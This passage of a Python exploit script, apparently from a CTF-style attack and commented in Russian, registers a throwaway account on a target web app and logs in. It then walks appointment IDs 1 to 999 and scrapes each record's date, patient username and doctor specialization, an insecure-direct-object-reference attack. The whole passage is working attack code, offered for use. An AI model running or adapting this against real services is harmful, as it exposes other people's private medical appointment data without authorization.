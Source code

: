 ```python
            "password": password,
            "passwordRep": password,
        },
        allow_redirects=False,
    )
    if res.status_code != 302:
        raise Exception("Failed to register user")
    if "err=" in res.headers["Location"]:
        raise Exception("Failed to register user")
    return True


# Функция для входа в аккаунт
def login(session, url, username, password):
	res = session.post(
		url + "/login",
		data={
			"login": username,
			"password": password,
		},
		allow_redirects=True,
	)
	if res.status_code == 200:
		return True
	else:
		raise Exception("Failed to login")
		return False


# Функция для получения информации о записи
def get_appointment(session, url, appointment_id):
    res = session.get(url + f"/appointments/{appointment_id}/info")
    if res.status_code != 200:
    	sys.exit()
    soup = BeautifulSoup(res.text, "html.parser")
    return [
    	soup.find("div", {"class": "dataAppoint"}).text.strip(),
        soup.find("div", {"class": "username"}).text.strip(),
        soup.find("div", {"class": "spec"}).text.strip()[len("specialization: ") :],
    ]


# Главная функиция эксплойта
def main__exploit(username, password):
	# Тут хотел бы обратить внимание на то, что сессия применяется только к функции login(), чтобы потом получать записи к врачам (appointments) через АВТОРИЗОВАННОГО пользователя

	# Сессия
	session = requests.Session()
	print("[+] Account was successfully registered", register(url, username, password), "-", f"{username}:{password}")
	print("[+] Login successful", login(session, url, username, password), "-", f"{username}:{password}")

	# Верхний порог цикла не стоит оставлять маленьким - может быть много записей. В любом случае, эксплойт остановится в случае, если код ответа будет отличен от "200"
	for i in range(1, 1000):
		print(f"[+] Appointment {i}", get_appointment(session, url, i))


if __name__ == "__main__":
	print(main__exploit(f"EnigmaHackers-{str(os.urandom(8).hex())}", f"{str(os.urandom(8).hex())}"))
```